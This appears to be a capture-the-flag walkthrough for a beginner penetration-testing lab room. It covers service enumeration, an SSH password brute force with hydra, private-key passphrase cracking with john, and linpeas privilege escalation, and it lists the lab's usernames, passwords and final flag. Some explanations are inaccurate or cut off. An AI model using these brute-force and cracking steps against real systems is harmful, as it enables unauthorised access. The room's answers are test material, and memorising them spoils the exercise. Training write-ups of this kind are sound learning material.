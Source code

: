 # Basic Penetrating Testing

# Task 1 Web App Testing and Privilege Escalation

1. Deploy the machine and connect to our network
> No Answer Needed

2. Find the services exposed by the machine
```
Scanning:

[NMAP scan result](nmap.txt)

[NMAP enumeration result](services_ports.txt)

[Nikto enumeration result](nikto.txt)
```
> No Answer Needed

3. What is the name of the hidden directory on the web server(enter name without /)?
```
Directory busting with dirbuster.

URL :- http://ip:port
Threads :- 200 or set faster
Wordlist path : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
> development

4. 	User brute-forcing to find the username & password
```
You can see Samba File share is running on port 139/445.

We can use enum4linux, an enumeratiion tool for Windows and Samba systems.

[enum4linux results](enum4linux.txt) 
```
> No Answer Needed

5. What is the username?
```
On looking at the ending of [this enum4linux results](enum4linux.txt) there are 2 users
```
> jan

6. What is the password?
```
Trial 1 : Attempt to login to ssh without password.

[Look at this](jan.png)

[Look at this](kay.png)

Result : Failure

Trial 2 : Bruteforcing ssh password with hydra.

$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.251.149 -t 4 ssh


Result : Success

```
> armando

7.  What service do you use to access the server(answer in abbreviation in all caps)? 
	Hint : what command line utility is used for remote access?
```
Login to target machine via ssh

$ ssh jan@target_ip

Password : armando 
```
> SSH

8. Enumerate the machine to find any vectors for privilege escalation 
```
You can try ssh using kay as username. But it ask for passphrase and password. 

You can take 2 routes either to bruteforce using hydra or login using private key.

As mentioned in the hint, we take the 2nd route ie., login using private key.

Run [linpeas]() privilage escalation tool, it finds all the path for privesc.

Challenge here is we dont have permission to download the script using wget/curl. 

So the option is to download linpeas to local machine and then copy to target machine using "$scp" command.

$ scp linupeas.sh /dev/shm

/dev/shm -> its a shared directory between the local machine and target machine.

Then run linpeas on target machine, you will find path for privilage escalation.

$ linpeas.sh >> linlog.txt

Look for those RED text, which specify for serious privesc

In this challenge you find this file marked as red after running linpeas.

/home/kay/.ssh/id_rsa

Its private key for kay user to login.

login to target machine.It asks for passphrase. You can crack this using john and private key. 

$ ssh -i id_rsa kay@[target_ip]

It fails, so conve

$ locate ssh2john

$ /usr/share/john/ssh2john.py kay_id_rsa > for_john.txt

$ sudo john for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt

passpharse : beeswax

Then run this command to login as kay

$ ssh -i id_rsa kay@[target_ip]

and above passpharase
```
> No answer needed.

9. What is the name of the other user you found(all lower case)?
```
```
> kay

10. If you have found another user, what can you do with this information? 
```
You can login using kay as user.
```
> No answer needed.

11. What is the final password you obtain?
```
Login as kay and cat out the final password.
```
> heresareallystrongpasswordthatfollowsthepasswordpolicy$$